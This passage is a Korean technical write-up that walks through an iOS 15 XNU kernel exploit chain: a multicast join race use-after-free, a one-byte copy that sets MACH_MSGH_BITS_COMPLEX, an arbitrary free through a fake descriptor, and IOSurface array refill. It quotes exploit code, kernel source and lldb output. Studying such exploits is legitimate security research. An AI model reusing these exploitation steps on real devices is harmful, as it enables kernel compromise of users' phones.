

아래에서 알수 있듯, elm는 유효하지 않은 커널 주소를 가르키기에 패닉이 발생한다.

```c
frame #6: 0xfffffe00155e1218 kernel.release.vmapple`ip6_msource_tree_RB_NEXT(elm=0x4141414141414141) at in6_mcast.c:164:1 [opt] [inlined]
```

다음으로, inm과 imf 값은 다음과 같다.

```c
frame #7: 0xfffffe00155e120c kernel.release.vmapple`in6m_merge(inm=0xfffffe151d9210a0, imf=0xfffffe2286659fd0) at in6_mcast.c:1005:2 [opt]
```

[imf 타입](https://github.com/apple-oss-distributions/xnu/blob/xnu-8019.41.5/bsd/netinet6/in6_mcast.c#L985)은 `struct in6_mfilter*` 이며, 다음과 같은 이루어져있다.

`imf->im6f_sources.rbh_root->rbe_right` 가 0x4141414141414141 값이 들어간다.

```c
(lldb) type lookup in6_mfilte
struct in6_mfilter {
    ip6_msource_tree im6f_sources;
    u_long im6f_nsrc;
    uint8_t im6f_st[2];
}

(lldb) p/x *(struct in6_mfilter *)0xfffffe2286659fd0
(struct in6_mfilter) {
  im6f_sources = {
    rbh_root = 0xfffffe228d003f64
  }
  im6f_nsrc = 0x0000000000000000
  im6f_st = {
    [0] = 0x00
    [1] = 0x00
  }
}

(lldb) type lookup ip6_msource_tree
struct ip6_msource_tree {
    ip6_msource *rbh_root;
}

(lldb) type lookup ip6_msource
struct ip6_msource {
    struct  {
        ip6_msource *rbe_left;
        ip6_msource *rbe_right;
        ip6_msource *rbe_parent;
    };
    ip6_msource::(unnamed struct) im6s_link;
    in6_addr im6s_addr;
    im6s_st im6s_st[2];
    uint8_t im6s_stp;
}

(lldb) p/x *(ip6_msource*)0xfffffe228d003f64
(ip6_msource) {
  im6s_link = {
    rbe_left = NULL
    rbe_right = 0x4141414141414141
    rbe_parent = NULL
  }
  im6s_addr = {
    __u6_addr = {
      __u6_addr8 = {
        [0] = 0x00
        [1] = 0x00
        [2] = 0x00
        [3] = 0x00
        [4] = 0x00
        [5] = 0x00
        [6] = 0x00
        [7] = 0x00
        [8] = 0x00
        [9] = 0x00
        [10] = 0x00
        [11] = 0x00
        [12] = 0x00
        [13] = 0x00
        [14] = 0x00
        [15] = 0x00
      }
      __u6_addr16 = ([0] = 0x0000, [1] = 0x0000, [2] = 0x0000, [3] = 0x0000, [4] = 0x0000, [5] = 0x0000, [6] = 0x0000, [7] = 0x0000)
      __u6_addr32 = ([0] = 0x00000000, [1] = 0x00000000, [2] = 0x00000000, [3] = 0x00000000)
    }
  }
  im6s_st = {
    [0] = (ex = 0x0008, in = 0x0000)
    [1] = (ex = 0x0000, in = 0x0000)
  }
  im6s_stp = 0xf5
}
```

참고로 `RB_FOREACH`  매크로 관련 부분인 
`RB_FOREACH(ims, ip6_msource_tree, &imf->im6f_sources) {` 루프문 코드는 
1byte copy가 발생하는 함수인 `im6f_commit` 에서도 동일하게 해당 루프문이 들어간다.

```c
// xnu-8019.41.5/bsd/netinet6/in6_mcast.c#L818
static void
im6f_commit(struct in6_mfilter *imf)
{
	struct ip6_msource      *ims;
	struct in6_msource      *lims;

	RB_FOREACH(ims, ip6_msource_tree, &imf->im6f_sources) {
		lims = (struct in6_msource *)ims;
		lims->im6sl_st[0] = lims->im6sl_st[1];	//1-byte copy
	}
	imf->im6f_st[0] = imf->im6f_st[1];	//1-byte copy
}
```

따라서 저 `BYTECOPY_SECOND_TARGET` 매크로는 
2번째 copy가 이뤄질 `imf->im6f_sources.rbh_root->rbe_right` 값을 제어하는 것으로 보면 될듯 싶다.

만약 저 `BYTECOPY_SECOND_TARGET`가 원래 익스플로잇이 작동가능하게끔 만든 값인 0xfffffe228cffffdb(0xfffffe228d000000 + 3 - 0x28)였다면,  아래와 같이 이루어졌을거고:

```c
(lldb) p/x *(in6_msource *)0xfffffe228cffffdb
(in6_msource) {
  im6s_link = {
    rbe_left = NULL
    rbe_right = NULL
    rbe_parent = NULL
  }
  im6s_addr = {
    __u6_addr = {
      __u6_addr8 = {
        [0] = 0x00
        [1] = 0x00
        [2] = 0x00
        [3] = 0x00
        [4] = 0x00
        [5] = 0x00
        [6] = 0x00
        [7] = 0x00
        [8] = 0x00
        [9] = 0x00
        [10] = 0x00
        [11] = 0x00
        [12] = 0x00
        [13] = 0x11
        [14] = 0x00
        [15] = 0x00
      }
      __u6_addr16 = ([0] = 0x0000, [1] = 0x0000, [2] = 0x0000, [3] = 0x0000, [4] = 0x0000, [5] = 0x0000, [6] = 0x1100, [7] = 0x0000)
      __u6_addr32 = ([0] = 0x00000000, [1] = 0x00000000, [2] = 0x00000000, [3] = 0x00001100)
    }
  }
  im6sl_st = {
    [0] = 0x00
    [1] = 0x88
  }
}
```

그이후로는 `lims->im6sl_st[0] = lims->im6sl_st[1];` 코드에 의해 
`im6sl_st[0]`이 0x00이었던 값이  `im6sl_st[1]`의 값인 0x88로 1byte copy가 발생했을 것이다.

그러면 “2-1 Before vs After”에서 `msgh_bits` 필드값의 상위 첫번째 바이트값이 변경된 이유(0x00000011 → 0x88000011)가 설명이 된다. (즉, 말이 된다)

## 2-6. `get_arb_free_holder()` 요점 정리

- 익스플로잇 코드를 살펴보면, `get_arb_free_holder` 함수에서 처음에 `mcast_join_group` 호출을 비동기 코드를 포함하여 총 64번(`UAF_BUFFER_KALLOC_1664_JOIN_COUNT`) 수행하는것을 알 수 있다.
- 여기서 64번 수행하는 이유는 취약점 나올때 자세히 설명하겠지만, `in6p_join_group`에서 `im6o_grow` 에 의해 계속 커널 할당크기를 늘리면서 `default.kalloc.1664` 존에 속하도록 만들기 위해서이며, 추후 `necp_client_action` 시스템콜을 통해 여러 `imf` 포인터들이 존재하는 배열인 `imo->im6o_mfilters` 에 임의 데이터를 채우기 위해서이기도 하다.
- 여기서부터는 취약점과 함께 설명하겠다.
- `mcast_join_group`함수 호출을 쓰레드를 통해 비동기로 여러번하게 하게되면, 
`in6p_join_group`에서 잠금이 해제되는 순간 UAF 버그를 발생시킬 수 있다.
- 그러면 동시 실행되는 다른 `in6p_join_group` 호출이 `im6o_membership`, `im6o_mfilters` 들을 재할당할 수 있기에 `imf` 포인터가 유효하지 않을 수 있다.
- 그런 다음, 그 댕글링 포인터는 `in6_mc_join`에서 접근할 수 있다.
- 이전에 설명했다시피 댕글링 포인터 배열은 `im6o_grow`에 의해 `nmfilters(=imo->im6o_mfilters)` 재할당크기가 늘어남으로써 `default.kalloc.1664` 존에 속해있다.
- `necp_client_action` 시스템콜을 통해 해당 존에 속한 커널 할당한 곳을 다시 채워넣을 수 있다.
- 다시 채워넣을때의 익스플로잇 코드를 살펴보면 `necp_buf+0x278=BYTECOPY_FIRST_TARGET` 값이 들어간 것을 확인할 수 있는데, 이는 곧 커널에서 `imf->im6f_sources.rbh_root`를 가리킨다.
- 해당 `imf->im6f_sources.rbh_root` 은 곧 `BYTECOPY_FIRST_TARGET` 값이므로, `im6f_commit` 에서 발생하는 1byte-copy에 의해 trailer size를 8에서 0으로 조작할 수 있다.
- 그리고 `BYTECOPY_FIRST_TARGT+8` 주소에는 `BYTECOPY_SECOND_TARGET` 값이 들어가있다. +8 오프셋에 위치한 이유는, 이는 곧 `ip6_msource` 구조체의 `im6s_link.rbe_right` 위치를 의미하기 때문이다.
- `im6f_commit`에서는 `RB_FOREACH`매크로에 의해 순회하면서, 해당 `rbe_right` 값이 곧 `imf`가 되므로, 한번더 1byte-copy가 일어나면서 `msgh_bits` 값 중 상위 1바이트가 0x0에서 0x88로 바뀜으로써 kmsg에 `MACH_MSGH_BITS_COMPLEX` 를 세트시키게 되는 것이다. (`MACH_MSGH_BITS_COMPLEX = 0x80000000`)
- 실제로 1byte-copy가 이루어졌는지 확인하기 위해 `mach_port_peek` 로 trailer size를 확인한다.
- 만약 trailer size가 8이 아니라면, 해당 포트는 1byte-copy가 발생한 `kheap_data_ports[i]`이다.

## 2-6-1. `get_arb_free_holder()` 요점 정리 (그림)

그림을 그려서 나타내보면 다음과 같다. 이미지를 다운로드해서 보는것을 추천한다.
(Recommend for downloading picture on PC but not mobile, because resolution is too high :/ )

English Version:


Korean Version:


## 3. exploitation_get_krw_with_arb_free

## 3-1. IOSurface_init

이미 아는 사람은 알다시피, 먼저 `IOServiceGetMatchingService` 함수로 그래픽 가속화 관련 서비스인 IOSurface 서비스를 찾는다. 이후로 `IOServiceOpen` 함수를 호출하는데, 보통 사용자 공간 프로세스가 커널에 등록된 I/O 서비스 드라이버로부터 userclient를 가져오는데 주로 활용된다. 

여기서는 IOSurfaceClients 배열을 0x4000 크기로 만들기 전에 IOSurfaceRoot_init을 1번 호출한다.

```c
io_connect_t IOSurfaceRoot_init(void)
{
    kern_return_t IOMasterPort(mach_port_t, mach_port_t *);
    mach_port_t mp = MACH_PORT_NULL;
    IOMasterPort(MACH_PORT_NULL, &mp);
    io_connect_t uc;

    io_service_t s = IOServiceGetMatchingService(mp, IOServiceMatching("IOSurfaceRoot"));
    if (s == MACH_PORT_NULL)
    {
        return 0;
    }
    
    if (IOServiceOpen(s, mach_task_self(), 0, &uc) != KERN_SUCCESS)
    {
        return 0;
    }
    
    return uc;
}

int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
    uint8_t msg_buf[0x100];
    int fildes[2];
    pipe(fildes);
    int read_pipe = fildes[0];
    int write_pipe = fildes[1];
    kern_return_t kr = KERN_SUCCESS;
    
    // alloc this one before array of IOSurfaceClients becomes 0x4000
    io_connect_t iosurface_connect_krw = IOSurfaceRoot_init();
    ...
} 
```

`IOSurfaceRoot_cause_array_size_to_be_0x4000` 호출하는 것을 볼 수 있는데,
이는 IOSurfaceClients 배열을 관리하는 크기가 0x4000이 되도록 만들기 위해서다.
세부적으로 살펴보면 `IOSurfaceRoot_create_surface_fast` 를 호출하는 것을 볼 수 있다.

```c
uint32_t IOSurfaceRoot_cause_array_size_to_be_0x4000(void)
{
    for (int i = 0; i < 4; ++i)
    {
        io_connect_t uc = IOSurfaceRoot_init();
        for (int i = 0; i < 0xf00; ++i)
        {
            uint32_t last_id = IOSurfaceRoot_create_surface_fast(uc);
            if (0x3400 <= (last_id * sizeof(uint64_t)))
            {
                return last_id;
            }
        }
    }
    
    return -1;
}

int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
    ...
    // cause max size of arrays of IOSurfaceClients to become 0x4000
    uint32_t last_id = IOSurfaceRoot_cause_array_size_to_be_0x4000();
    printf("last_id = 0x%x\n", last_id);
    ...
}
```

## 3-2. IOSurfaceRoot_create_surface_fast

커널로 넘어가기 전에, 
alloc_size를 0x4000(사실 0만 아니면 뭐든 상관없음)으로 지정하여 `IOConnectCallMethod` 호출을 통해 넘어간다.

이전에 mach_swap2 익스플로잇을 살펴볼때에 
`IOSurface_init` 함수에서 `IOSurfaceRootUserClient::s_create_surface` 와 비슷하게 작동한다고 보면 될듯 싶다.

마지막에는 surface_id를 획득한다.

```c
uint32_t IOSurfaceRoot_create_surface_fast(io_connect_t uc)
{
    // Brandon Azad's definitions from https://bugs.chromium.org/p/project-zero/issues/detail?id=1986#c4
    struct _IOSurfaceFastCreateArgs {
        uint64_t address;
        uint32_t width;
        uint32_t height;
        uint32_t pixel_format;
        uint32_t bytes_per_element;
        uint32_t bytes_per_row;
        uint32_t alloc_size;
    };

    struct IOSurfaceLockResult {
        uint8_t _pad1[0x18];
        uint32_t surface_id;
        uint8_t _pad2[0xF60-0x18-0x4];
    };
    
    struct _IOSurfaceFastCreateArgs create_args = { .alloc_size = (uint32_t) 0x4000 };
    struct IOSurfaceLockResult lock_result = {0};
    uint64_t lock_result_size = sizeof(lock_result);
    
    IOConnectCallMethod(
            uc,
            6,
            NULL, 0,
            &create_args, sizeof(create_args),
            NULL, NULL,
            &lock_result, (size_t *)&lock_result_size);
    
    return lock_result.surface_id;
}
```

커널에서의 코드를 아래 그림과 함께 살펴보면,
IOSurfaceRootUserClient::create_surface_fast_path
→ IOSurfaceRoot::createSurface
→ IOSurfaceRoot::createSurface
→ IOSurface::init
→ IOSurface:allocate


`IOSurfaceRoot::createSurface` 함수는 IOSurface 객체를 생성하는 역할을 담당한다. 

이 함수는 `OSDictionary`를 입력으로 받아 이를 `IOSurface::init` 함수로 전달한다.

`IOSurface::init`은 전달된 속성들을 파싱하며, 최종적으로 `IOSurfaceAllocSize`(=_IOSurfaceFastCreateArgs’s alloc_size) 사용자 인풋값인 0x4000 크기가 들어간다.

`IOSurface` 객체는 실제로는 단순히 `IOMemoryDescriptor`를 래핑하는데, 
이 디스크립터는 `IOSurface::allocate`에서 아래 함수를 호출해 생성된다.

```c
OSSharedPtr<IOMemoryDescriptor>
IOMemoryDescriptor::withAddressRange(mach_vm_address_t address,
    mach_vm_size_t length,
    IOOptionBits   options,
    task_t         task);
```

참고로, `IOSurfaceRootUserClient::create_surface_fast_path` 를 호출할때에
`IOSurfaceAllocSize`(=_IOSurfaceFastCreateArgs’s alloc_size) 사용자 인풋값이 꼭 0x4000 크기일 필요는 없다. 0이 아닌 이상 0x1이든, 0x100이든간에 말이다.

우리에게 중요한 것은 아래 코드와 같이  `IOSurfaceRoot_create_surface_fast` 를 여러번 호출하여
추후 `IOSurfaceRootUserClient::lookup_surface`호출하여 
`IOSurfaceClients` 배열을 위해 커널 할당할 때 0x4000 크기로 만들어야하는 것이다.

```c
uint32_t IOSurfaceRoot_cause_array_size_to_be_0x4000(void)
{
    for (int i = 0; i < 4; ++i)
    {
        io_connect_t uc = IOSurfaceRoot_init();
        for (int i = 0; i < 0xf00; ++i)
        {
            uint32_t last_id = IOSurfaceRoot_create_surface_fast(uc);
            if (0x3400 <= (last_id * sizeof(uint64_t)))
            {
                return last_id;
            }
        }
    }
    
    return -1;
}
```

따라서 `IOSurfaceRoot_create_surface_fast` 함수를 여러번 호출함으로써 
`IOSurface::init`에 도달하여 `IOSurfaceClients` 배열 할당 크기를 늘릴 수 있기에, 
 `i_IOSurfaceHandleTotalCapability`를 점차 증가시켜 0x800으로 만들어준다.


## 3-3. port_destroy(arb_free_holder);

```c
void port_destroy(mach_port_t p)
{
    mach_port_destroy(mach_task_self(), p);
}

int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
...
    // trigger arbitrary free in kheap default
    port_destroy(arb_free_holder);
...
}
```

이전에 봤던 `get_arb_free_holder`에서 반환된 값은 1byte-copy가 발생한 `kheap_data_ports[i]`이며,
이는 곧 `arb_free_holder`이다.

여기서 우리가 알아야될 중요한 것은 
손상이 발생한 `arb_free_holder`의 kmsg를 살펴보면, `msgh_bits` 필드값이 `MACH_MSGH_BITS_COMPLEX(=0x80000000)` 이 세트되어있다는 것이다.

```c
(lldb) p/x *(mach_msg_header_t*)0xfffffe228d000000
(mach_msg_header_t) {
  msgh_bits = 0x88000011 //SET MACH_MSGH_BITS_COMPLEX !!!!!
  msgh_size = 0x00003f88
  msgh_remote_port = 0xfffffe1514a8dd60
  msgh_local_port = NULL
  msgh_voucher_port = 0x00000000
  msgh_id = 0x00000000
}
```

이는 훌륭한데, 
메시지 객체가 파괴될 때 메시지 버퍼 시작 부분에 있는 ‘descriptors’가 커널 주소로 취급되어 free시킬 수 있기 때문이다. 

XNU 소스코드를 통해 추적해보면, 다음과 같다.
`ipc_kmsg_clean
-> ipc_kmsg_clean_body
-> ipc_kmsg_clean_body`

```c
// xnu-8019.41.5/osfmk/ipc/ipc_kmsg.c:1842
static void
ipc_kmsg_clean(
	ipc_kmsg_t      kmsg)
{
	ipc_object_t object;
	mach_msg_bits_t mbits;

	/* deal with importance chain while we still have dest and voucher references */
	ipc_importance_clean(kmsg);

	mbits = kmsg->ikm_header->msgh_bits;
	object = ip_to_object(kmsg->ikm_header->msgh_remote_port);
	
	...

	if (mbits & MACH_MSGH_BITS_COMPLEX) { // <- THIS !!!!!
		mach_msg_body_t *body;

		body = (mach_msg_body_t *) (kmsg->ikm_header + 1);
		ipc_kmsg_clean_body(kmsg, body->msgh_descriptor_count,
		    (mach_msg_descriptor_t *)(body + 1));
	}
}
```

```c
// xnu-8019.41.5/osfmk/ipc/ipc_kmsg.c:1687
static void
ipc_kmsg_clean_body(
	__unused ipc_kmsg_t     kmsg,
	mach_msg_type_number_t  number,
	mach_msg_descriptor_t   *saddr)
{
	mach_msg_type_number_t      i;

	if (number == 0) {
		return;
	}

	for (i = 0; i < number; i++, saddr++) {
		switch (saddr->type.type) {
		...
		case MACH_MSG_OOL_PORTS_DESCRIPTOR: /* 2 */{
			ipc_object_t                    *objects;
			mach_msg_type_number_t          j;
			mach_msg_ool_ports_descriptor_t *dsc;

			dsc = (mach_msg_ool_ports_descriptor_t  *)&saddr->ool_ports;
			objects = (ipc_object_t *) dsc->address;

			if (dsc->count == 0) {
				break;
			}

			assert(objects != (ipc_object_t *) 0);

			/* destroy port rights carried in the message */

			for (j = 0; j < dsc->count; j++) {
				ipc_object_t object = objects[j];

				if (!IO_VALID(object)) {
					continue;
				}

				ipc_object_destroy(object, dsc->disposition);
			}

			/* destroy memory carried in the message */

			assert(dsc->count != 0);

			kfree_type(mach_port_t, dsc->count, dsc->address);
			break;
		}
		...
		default:
			panic("invalid descriptor type: (%p: %d)",
			    saddr, saddr->type.type);
		}
	}
}
```

즉, arbitrary free가 가능하다.

0xfffffe2281888000 주소로 할당되었던 곳이 free된다.

이는 익스플로잇 코드에서 exploitation_init 함수의 
“fake descriptor for free primitive” 주석 아래의 코드에 작성되있으며,
할당해제할 주소인 address, deallocate, copy, disposition, type, count값이 그대로 담겨있기에 
해당 하드코딩 할당주소에 free가 가능한것이다.

```c
int exploitation_init(void)
{
...
    // fake descriptor for free primitive
    *(uint32_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t)) = 1;    // (mach_msg_body_t *)body->msgh_descriptor_count
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t)) = KHEAP_DEFAULT_MAPPABLE_LOC; // free primitive target
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint64_t)) = 0x000007F802110000; // disposition, size, etc
...
}
```

```c
(lldb) bt
* thread #4, name = 'CPU3', stop reason = breakpoint 5.1
  * frame #0: 0xfffffe0026113ff0 kernel.release.vmapple`ipc_kmsg_clean_body(kmsg=<unavailable>, number=1, saddr=<unavailable>) at ipc_kmsg.c:1691 [opt]
    frame #1: 0xfffffe0026113f68 kernel.release.vmapple`ipc_kmsg_clean(kmsg=0xfffffe1514994700) at ipc_kmsg.c:1873:3 [opt]
    frame #2: 0xfffffe0026113e38 kernel.release.vmapple`ipc_kmsg_reap_delayed at ipc_kmsg.c:1671:3 [opt]
    frame #3: 0xfffffe002611e210 kernel.release.vmapple`ipc_port_destroy(port=0xfffffe1514999180) at ipc_port.c:1148:3 [opt]
    frame #4: 0xfffffe0026122d54 kernel.release.vmapple`ipc_right_destroy(space=<unavailable>, name=4485379, entry=<unavailable>, check_guard=<unavailable>, guard=<unavailable>) at ipc_right.c:1047:4 [opt]
    frame #5: 0xfffffe002612cec8 kernel.release.vmapple`mach_port_destroy(space=0xfffffe150dd42880, name=4485379) at mach_port.c:768:7 [opt]
    frame #6: 0xfffffe00261ac990 kernel.release.vmapple`_Xmach_port_destroy(InHeadP=0xfffffe1514e7898c, OutHeadP=0xfffffe1514e7878c) at mach_port_server.c:812:18 [opt]
    frame #7: 0xfffffe002613d220 kernel.release.vmapple`ipc_kobject_server_internal(port=<unavailable>, request=0xfffffe1514e78900, replyp=0xfffffe6029cd3c30) at ipc_kobject.c:472:3 [opt]
    frame #8: 0xfffffe002613cd74 kernel.release.vmapple`ipc_kobject_server(port=<unavailable>, request=0xfffffe1514e78900, option=<unavailable>) at ipc_kobject.c:580:8 [opt]
    frame #9: 0xfffffe00261148e8 kernel.release.vmapple`ipc_kmsg_send(kmsg=0xfffffe1514e78900, option=3, send_timeout=0) at ipc_kmsg.c:2202:10 [opt]
    frame #10: 0xfffffe002612c2c8 kernel.release.vmapple`mach_msg_overwrite_trap(args=<unavailable>) at mach_msg.c:371:8 [opt]
    frame #11: 0xfffffe0026259b2c kernel.release.vmapple`mach_syscall(state=0xfffffe151165c9f0) at bsd_arm64.c:276:11 [opt]
    frame #12: 0xfffffe0026262e78 kernel.release.vmapple`handle_svc(state=0xfffffe151165c9f0) at sleh.c:2411:3 [opt] [inlined]
    frame #13: 0xfffffe0026262e0c kernel.release.vmapple`sleh_synchronous(context=0xfffffe151165c9f0, esr=<unavailable>, far=4840380424) at sleh.c:743:3 [opt]
    frame #14: 0xfffffe00260f479c kernel.release.vmapple`fleh_synchronous + 40
    frame #15: 0x00000001a9f7d954
    frame #16: 0x00000001a9f9a250
    frame #17: 0x0000000100fb2690
    frame #18: 0x0000000100fb0ebc
    frame #19: 0x0000000100fb1288
    frame #20: 0x0000000100fb13bc
    frame #21: 0x000000010110d0f4

(lldb) reg read
General Purpose Registers:
        x0 = 0x0000000000000001
        x1 = 0xfffffe228d000024
...

(lldb) p/x *(mach_msg_ool_ports_descriptor_t  *)0xfffffe228d000024
(mach_msg_ool_ports_descriptor_t)  (address = 0xfffffe2281888000, deallocate = 0x00000000, copy = 0x00000000, disposition = 0x00000011, type = 0x00000002, count = 0x000007f8)
```

그리고 0xfffffe2281888000(=KHEAP_DEFAULT_MAPPABLE_LOC) 주소로 할당되었던 곳을 살펴보면 다음과 같은 주소가 나타난다.

“1-5. 다시 돌아와서, 스프레이 코드 살펴보기”에서 살펴봤던 `notif_port` 를 기억하는가?

해당 `notif_port` 역시 `ipc_kmsg_clean_body`에 있는 `ipc_object_destroy(object, dsc->disposition);` 코드에 의해 파괴될것이다. (*정확히는 1byte-copy가 발생한 `kheap_default_ports[i]`에 등록된 `notif_port`)

```c
(lldb) p/x *(ipc_object_t *)0xfffffe2281888000
(ipc_object_t) 0xfffffe15149bf200
```

## 3-4. IOSurfaceRoot_lookup_surface / IOSurfaceRoot_release_all

이전에 말했다시피 `IOSurfaceRootUserClient::lookup_surface`호출하여 
`IOSurfaceClients` 배열을 위해 커널 할당할 때 0x4000 크기로 만들어줄 수 있는데, 
방금 arbitrary free되었던 0xfffffe2281888000 주소로 배정받게 만든다.

그리고 나중에 “find allocation at KHEAP_DEFAULT_MAPPABLE_LOC” 주석 아래의 코드에서 port_destroy할때 zone_require 패닉을 방지하기 위해 `IOSurfaceRoot_release_all` 호출을 한다.

```
kern_return_t IOSurfaceRoot_lookup_surface(io_connect_t uc, uint32_t surf_id)
{
    uint64_t sz = IOSURFACE_CREATE_OUTSIZE;
    uint8_t o[IOSURFACE_CREATE_OUTSIZE];
    uint64_t scalarInput = surf_id;
    kern_return_t ret = IOConnectCallMethod(uc, 4, &scalarInput, 1, 0, 0, 0, 0, o, (size_t *)&sz);
    return ret;
}

kern_return_t IOSurfaceRoot_release_surface(io_connect_t uc, uint32_t surf_id)
{
    uint64_t scalarInput = surf_id;
    kern_return_t ret = IOConnectCallMethod(uc, 1, &scalarInput, 1, 0, 0, 0, 0, 0, 0);
    return ret;
}

void IOSurfaceRoot_release_all(io_connect_t uc)
{
    for (uint32_t surf_id = 1; surf_id < 0x3FFF; ++surf_id)
    {
        IOSurfaceRoot_release_surface(uc, surf_id);
    }
}

int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
...
    // do refill in kheap default
    IOSurfaceRoot_lookup_surface(iosurface_connect_krw, last_id);
    // NULL out array
    IOSurfaceRoot_release_all(iosurface_connect_krw);
...
}
```

구체적으로 한번 살펴보자.

실제로 ENABLE_HELPER 매크로를 활성화하여
`m_IOSurfaceClientArrayPointer` 할당된 주소를 살펴보면, 
조금 전 arbitrary free되었던 KHEAP_DEFAULT_MAPPABLE_LOC 주소가 나타난다.

- 코드

```c
    // do refill in kheap default
    IOSurfaceRoot_lookup_surface(iosurface_connect_krw, last_id);

#if ENABLE_HELPER
    uint64_t surfRoot = port_to_kobject(iosurface_connect_krw);
    INFO("iosurface_connect_krw's IOSurfaceRootUserClient = 0x%llx\n", surfRoot);

	uint64_t surfClients = kextrw_kread64(surfRoot + 0x118);
	INFO("iosurface_connect_krw's IOSurfaceRootUserClient->m_IOSurfaceClientArrayPointer: 0x%llx\n", surfClients);
    getchar();
#endif
```

- 실행 결과

```c
[*] iosurface_connect_krw's IOSurfaceRootUserClient = 0xfffffe150df24cf0
[*] iosurface_connect_krw's IOSurfaceRootUserClient->m_IOSurfaceClientArrayPointer: 0xfffffe2281888000
```

KHEAP_DEFAULT_MAPPABLE_LOC 주소로 할당받는것이 가능했던 이유에 대해 설명해보겠다. 

`IOSurfaceRootUserClient::lookup_surface`는 최종적으로 `IOSurfaceRootUserClient::alloc_handles`에서 `m_IOSurfaceClientArrayPointer` 필드에 `IOMallocZero`으로부터 반환된 커널할당주소가 지정된다.

IOSurfaceRootUserClient::lookup_surface
→ IOSurfaceClient::withBuffer
→ IOSurfaceClient::init
→ IOSurfaceRootUserClient::set_surface_handle
→ IOSurfaceRootUserClient::alloc_handles 

이전에 우리는 `IOSurfaceRoot_create_surface_fast` 함수를 여러번 호출함으로써 `i_IOSurfaceHandleTotalCapability`  를 증가시켜 0x800으로 만들어주었기에
따라서 커널 할당크기는 0x4000(=8*0x800)이 된다.

`IOMallocZero` 는 KHEAP_KEXT 타입이지만, iOS 15 환경의 경우 KHEAP_DEFAULT 타입과 존이 격리되어있지 않고 같은 0x4000 할당크기이므로, 해당 KHEAP_DEFAULT_MAPPABLE_LOC 주소로 배정받는것이 가능한것이다. 
**(단, VMApple의 경우 - KHEAP_DEFAULT과 KHEAP_KEXT와 격리되있기에 익스플로잇이 불가능함)**



이후로는 `IOSurfaceRoot_release_all` 호출하는것을 볼 수 있는데,
여태까지 `IOSurfaceRoot_create_surface_fast` 여러번 호출하여 할당되었던 어떤 한 배열을 NULL로 초기화시키는 것으로 보인다. 

(주석에는 “NULL out array”이라고 되어있지만, release_all 관련 함수를 왜 호출하는지는 파악못했다.)

(한가지 알 수 있는 사실은 해당 코드를 비활성화할 시에 KHEAP_DEFAULT_MAPPABLE_LOC에 할당된 곳을 찾는 루프문 코드에서 port_destory 수행할 시 zone_require 패닉이 발생한다는 점이다..)

```c
